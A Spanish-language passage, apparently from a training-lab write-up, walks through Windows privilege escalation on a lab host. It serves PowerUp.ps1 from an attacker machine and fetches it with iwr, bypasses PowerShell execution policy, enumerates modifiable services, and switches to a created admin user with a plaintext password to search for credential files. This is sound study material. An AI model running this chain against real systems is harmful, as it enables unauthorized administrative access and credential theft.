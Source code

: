 - Emitimos el reinicio: `shutdown /r /t 0`
- Verificamos si **_dave2_** existe: `Get-LocalGroupMember administrators`
```
PS C:\Users\dave> Get-LocalGroupMember administrators

ObjectClass Name                      PrincipalSource
----------- ----                      ---------------
User        CLIENTWK220\Administrator Local
User        CLIENTWK220\BackupAdmin   Local
User        CLIENTWK220\dave2         Local
User        CLIENTWK220\daveadmin     Local
User        CLIENTWK220\offsec        Local
```
#### Paso 3: Enumeramos _vectores de ataque_ con PowerUp 
1. Usamos PowerUp: `cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .`
2. Servimos la copia con python: `python3 -m http.server 80`
>En la máquina de destino, lo descargamos como dave con iwr en PowerShell e iniciamos PowerShell con ExecutionPolicy Bypass. De lo contrario, no será posible ejecutar scripts ya que están bloqueados
3. `iwr -uri http://192.168.45.173/PowerUp.ps1 -Outfile PowerUp.ps1`
4. `powershell -ep bypass`
5. `. .\PowerUp.ps1`
6. `Get-ModifiableServiceFile`
```
ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : CLIENTWK220\dave
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
Name                            : mysql
```
> Los resultados con la Herramienta no dicen mucho..

Para obtener el flag iniciaremos pwsh como _dave2_ con **runas** y enumeraremos:
#### Paso 4: Obtenemos el flag
1. Como usuario _dave_ corremos: `runas /user:dave2 cmd` _pass_: **password123!**
2. Como usuario _dave2_ buscamos dentro de los directorios a los que tengamos accesos algun .txt que nos pueda dar credenciales para _daveadmin_
```
Get-ChildItem -Path C:\Users\Public -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
Directory: C:\Users\Public\Transcripts

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/23/2022   8:12 AM           1109 transcript01.txt

PS C:\Users\Public\Transcripts> type transcript01.txt
**********************
Windows PowerShell transcript start
Start time: 20220623081143
Username: CLIENTWK220\dave
RunAs User: CLIENTWK220\dave
Configuration Name:
Machine: CLIENTWK220 (Microsoft Windows NT 10.0.22000.0)
Host Application: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Process ID: 10336
PSVersion: 5.1.22000.282
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.22000.282
BuildVersion: 10.0.22000.282
CLRVersion: 4.0.30319.42000
```